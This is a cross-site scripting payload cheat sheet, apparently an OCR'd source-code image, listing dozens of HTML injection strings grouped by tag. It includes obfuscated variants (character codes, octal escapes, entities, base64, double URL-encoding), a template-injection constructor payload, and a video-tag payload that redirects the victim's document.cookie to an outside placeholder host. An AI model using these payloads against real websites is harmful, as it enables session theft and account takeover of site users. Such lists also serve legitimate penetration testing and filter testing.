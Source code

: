 ```html
<body onpageshow=alert(1)>
<body/onfocus=alert(1)>
<body/onload=alert(1)>
<body href=x %00 nonafterprint=confirm(document.domain) autofocus>
<body/onload=document.write(String.fromCharCode(60,115,99,114,105,112,116,62,97,108,101,114,116,40,49,41,60,47,115,99,114,105,112,116,62)) >
  
  
input tag
<input autofocus onfocus=alert(1)>
<input type=image src onerror=alert(1)>
<input onblur=alert(1) id=x><input autofocus>
<input onbeforecopy=alert(1) value="XSS" autofocus>
<input/autofocus/onfocus=&#97&#108&#101&#114&#116&#40&#49&#41>
  
a tag
<a onmouseover="alert(1)">link</a>
<a href=# name=xss autofocus onfocus=alert(1)>
<a draggable="true" ondragend="alert(1)">test</a>
<a href="javascript:'\74\163\166\147\40\157\156\154\157\141\144\75\141\154\145\162\164\50\61\51\76'">link</a>
  
video tag
<video onkeypress="alert(1)" contenteditable></video>
<video src=1 onerror=alert(/xss/)>
<video src onloadstart=alert(1)>
<video><source onerror=location=/http:\\domain.tld\page/.source+document.cookie >

button tag
<button onfocus=alert(1) autofocus>
<button ondblclick="alert(1)" autofocus tabindex=1>test</button>
<button onkeyup="alert(1)" contenteditable>test</button>
  
object tag
<object data='data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMSk+'></object>
<object type='text/x-scriptlet' data='http://example.com/xss.html'></object>
  xss.html -> <script>alert(1)</script>
 
embed tag
<embed src="data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMSk+"></embed>
<embed src="javascript:alert(1)">
  
audio tag
<audio src=x onerror=alert(/xss/)>
  
textarea tag
<textarea autofocus onfocus=alert(1)>
  
meter tag
<meter onmouseover=alert(1)></meter>
<meter onmousemove="alert(1)"></meter>

select tag
<select autofocus onfocus=alert(1)>

form tag
<form onsubmit=alert(1)><button type=submit></button></form>
  
Constructor
{{+constructor.constructor("alert(document.cookie)")()+}}
  
Etc
ax6zt%2522%253e%253cscript%253ealert%2528document.domain%2529%253c%252fscript%253ey6uu6
```